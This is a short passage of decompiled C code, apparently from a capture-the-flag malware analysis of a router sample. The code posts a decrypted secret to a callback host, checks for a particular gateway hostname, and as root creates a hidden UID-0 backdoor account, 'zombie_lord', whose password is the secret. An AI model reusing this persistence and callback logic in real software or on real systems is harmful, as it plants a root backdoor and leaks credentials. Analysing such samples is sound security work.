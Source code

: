 ```C
    curl_easy_setopt(curl_easy_handle,0x2712,"http://callback.router.htb");
    curl_easy_setopt(curl_easy_handle,0x271f,decrypted);
    curl_easy_perform(curl_easy_handle);
    curl_easy_cleanup(curl_easy_handle);
    pFVar2 = fopen("/proc/sys/kernel/hostname","r");
    local_168 = 0;
    memset(auStack_164,0,0xfc);
    sVar1 = fread(&local_168,0x100,1,pFVar2);
    fclose(pFVar2);
    (&uStack_169)[sVar1] = 0;
    curl_easy_handle = strcmp((char *)&local_168,"HSTERUNI-GW-01");
    if (curl_easy_handle == 0) {
      _Var3 = getuid();
      if ((_Var3 == 0) || (_Var3 = geteuid(), _Var3 == 0)) {
        ppVar4 = getpwnam((char *)&uStack_20);
        if (ppVar4 == (passwd *)0x0) {
          system(
                "opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M z ombie_lord"
                );
        }
        pFVar2 = popen("passwd zombie_lord","w");
        fprintf(pFVar2,"%s\n%s\n",decrypted,decrypted);
        pclose(pFVar2);
        uVar5 = 0;
      }
      else {
        uVar5 = 0xffffffff;
      }
    }
    else {
      uVar5 = 0xffffffff;
    }
  }
  return uVar5;
}


```

```C
undefined4 init_crypto_lib(undefined4 param_1,undefined4 param_2,undefined4 param_3)

{
  undefined auStack_110 [260];
  
  key_rounds_init(param_1,auStack_110);
  perform_rounds(auStack_110,param_2,param_3);
  return 0;
}
```
